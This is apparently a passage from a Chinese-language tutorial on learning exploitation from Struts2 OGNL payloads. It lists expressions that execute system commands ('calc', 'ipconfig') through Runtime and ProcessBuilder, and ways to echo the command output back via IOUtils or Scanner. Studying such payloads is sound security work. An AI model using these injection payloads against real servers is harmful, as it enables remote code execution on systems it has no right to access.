 

**4、中阶使用**

从 Struts2 系列的 payload 中学习如何进行漏洞利用

1) 命令执行

```java
# Runtime
@java.lang.Runtime@getRuntime().exec(\"calc\")

# ProcessBuilder
(new java.lang.ProcessBuilder(new java.lang.String[]{'calc'})).start()
```

2) 回显

```java
# IOUtils
@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream())
```

测试效果

![image-20221002163122141](./img/image-20221002163122141.png)

```
# Scanner
new java.util.Scanner(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream()).useDelimiter('\\a').next()
```

测试效果

![image-20221002163925707](./img/image-20221002163925707.png)
